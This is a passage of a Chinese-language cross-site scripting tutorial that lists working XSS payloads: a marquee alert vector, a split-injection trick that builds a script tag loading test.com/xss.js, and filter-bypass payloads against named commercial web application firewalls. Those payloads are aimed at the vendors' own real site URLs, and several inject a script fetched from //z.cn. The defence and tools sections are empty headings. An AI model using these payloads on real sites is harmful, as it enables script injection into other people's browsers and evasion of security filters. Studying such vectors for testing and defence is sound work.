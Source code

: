 #### 火狐IE专属

```
<marquee onstart=alert(1)>
```

#### 拆分法

当 Web 应用程序对目标用户的输入长度进行了限制时，这时无法注入较长的xss攻击向量，但是特定情况下，这种限制可以通过拆分法注入的方式进行绕过。

```
<script>a='document.write("'</script>
<script>a=a+'<script src=ht'</script>
<script>a=a+'tp://test.com/xs'</script>
<script>a=a+'s.js></script>")'</script>
<script>eval(a)</script>
```

通过上面的拆分法可以拼凑出下面完整的攻击向量：

```
document.write("<script src = http://test.com/xss.js></script>")
```

#### 绕过常见 waf 拦截

##### 安全狗

```
http://www.safedog.cn/index/privateSolutionIndex.html?tab=2<video/src/onerror=top[`al`%2B`ert`](1);>
http://www.safedog.cn/index/privateSolutionIndex.html?tab=2<video/src/onerror=appendChild(createElement("script")).src="//z.cn">
```

##### D盾

```
http://www.d99net.net/News.asp?id=126<video/src/onloadstart=top[`al`%2B`ert`](1);>
http://www.d99net.net/News.asp?id=126<video/src/onloadstart=top[a='al',b='ev',b%2ba](appendChild(createElement(`script`)).src=`//z.cn`);>
```

##### 云锁+奇安信 waf

```
http://www.yunsuo.com.cn/ht/dynamic/20190903/259.html?id=1<video/src/onloadstart=top[`al`%2B`ert`](1);>
http://www.yunsuo.com.cn/ht/dynamic/20190903/259.html?id=1<video/src/onloadstart=top[a='al',b='ev',b%2ba](appendChild(createElement(`script`)).src=`//z.cn`);>
```

### 七、如何防护



### 八、工具

#### 1.xss平台

#### 2.扫描器等



### 九、实战积累经验
